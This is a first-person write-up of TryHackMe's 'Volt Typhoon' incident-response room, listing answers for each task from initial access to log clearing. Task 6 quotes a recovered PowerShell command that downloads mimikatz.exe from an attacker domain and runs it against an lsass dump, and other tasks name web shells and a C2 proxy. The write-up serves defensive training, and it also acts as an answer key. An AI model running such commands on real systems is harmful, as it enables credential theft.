# 🛰️ Volt Typhoon CTF Write-up (TryHackMe)

This write-up documents my analysis of the “Volt Typhoon” CTF box on TryHackMe. The scenario is based on the real-world PRC state-sponsored threat actor **Volt Typhoon**, known for their stealthy, “living off the land” techniques using native Windows tools to evade detection. This room simulates a full compromise lifecycle — from initial access to data exfiltration and log tampering.

---

## ⚠️ Real-World Context

> “U.S. agencies assess that People’s Republic of China (PRC) state-sponsored cyber actors are seeking to pre-position themselves on IT networks for disruptive or destructive cyberattacks against U.S. critical infrastructure in the event of a major crisis or conflict with the United States.”  
> — CISA, NSA, FBI, and partners

**Aliases**: Vanguard Panda, BRONZE SILHOUETTE, Dev-0391, UNC3236, Voltzite, Insidious Taurus

---

## ✅ Skills Demonstrated

- 🕵️‍♂️ **Log and Event Analysis** – Traced attacker behavior using Windows logs and application artifacts  
- 🧠 **Threat Actor TTP Mapping** – Aligned observed activity with MITRE ATT&CK techniques  
- 🧪 **PowerShell & LOLBin Forensics** – Investigated system-native tools used for persistence and evasion  
- ✍️ **Incident Report Writing** – Compiled structured documentation to simulate IR workflow

---

## 📋 Task Summary

### 🧪 Task 1: IR Scenario
_I understand my duties and have started the attached virtual machine._  
No answer required.

---

### 🛠️ Task 2: Initial Access
- **Dean’s password change time**: `2024-03-24T11:10:22`
- **New admin account**: `voltyp-admin`

  

---

### ⚙️ Task 3: Execution
- **Drive info command**:
  ```bash
  wmic /node:server01, server02 logicaldisk get caption, filesystem, freespace, size, volumename
  ```
- **Password used for archive**: `d5ag0nm@5t3r`



---

### 🛡️ Task 4: Persistence
- **Web shell directory**: `C:\Windows\Temp\`

  

---

### 🕵️‍♂️ Task 5: Defense Evasion
- **PowerShell MRU wipe**: `Remove-ItemProperty`
- **Renamed archive**: `cl64.gif`
- **Reg key checked**: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control`

  
  


---

### 🧬 Task 6: Credential Access
- **Credential tools searched**: `OpenSSH, putty, realvnc`
- **Mimikatz command**:
  ```powershell
  Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe";
  Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait
  ```
  

---

### 🌐 Task 7: Discovery & Lateral Movement
- **Event IDs searched**: `4624 4625 4769`
- **New web shell**: `AuditReport.jspx`

  


---

### 💾 Task 8: Collection
- **Files copied**: `2022.csv 2023.csv 2024.csv`

  
---

### 📡 Task 9: C2 & Cleanup
- **Proxy C2 address/port**: `10.2.30.1 8443`
- **Cleared logs**: `Application Security Setup System`

  
  

---

## ✍️ Reflection

This was my first formal CTF write-up, and I’ve already learned a lot that I’ll apply going forward:
- Documenting as I go
- Capturing clearer screenshots
- Structuring reports with more polish from the start

Still, I’m proud of the work here. This CTF challenged me to analyze real-world attacker behavior, and I walked away with hands-on experience in detection, persistence analysis, and defensive evasion — skills that directly apply to SOC and IR roles.


---

## 📚 References
- [CISA Alert on Volt Typhoon](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-144a)
- [MITRE ATT&CK Techniques](https://attack.mitre.org/)
